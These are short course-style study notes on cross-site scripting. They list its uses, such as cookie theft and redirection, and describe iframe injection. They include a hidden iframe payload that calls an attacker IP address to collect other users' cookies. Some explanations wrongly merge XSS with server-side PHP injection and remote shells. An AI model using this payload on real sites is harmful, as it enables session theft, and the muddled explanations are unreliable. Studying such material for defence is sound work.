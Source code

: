 # 7.1 Cross Site Scripting \(XSS\)

* Uses of XSS attacks
  * cookie stealing
  * authentication bypass
  * redirecting the victim’s browser to a malicious HTML page
  * etc
* XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format.
* Like injecting a malicious PHP code inside a PHP page. Such that the malicious code runs on the server.
* XSS vulnerabilities go hand in hand with client side attacks.
* Usually remote shell got in such way of exploit have user "www-data".

### 7.1.1 Browser Redirection and IFRAME Injection

* Uses
  * Client side attacks
  * Information gathering script
* Given an environment which is not the user input are not sanitized.
* We first inject malicious code in the webpage as a script. The webpage could be using javascript, PHP, etc. We inject our code in these scripts.
* To steal **cookie or such information of other client** browsing the same website. We inject a reverse connection scripts
  * `<iframe SRC="http://192.168.1.1:80/report" height = "0" width = "0"></iframe>`
  * where 192.168.1.1 is the attacker system IP address for reverse connection.
* 

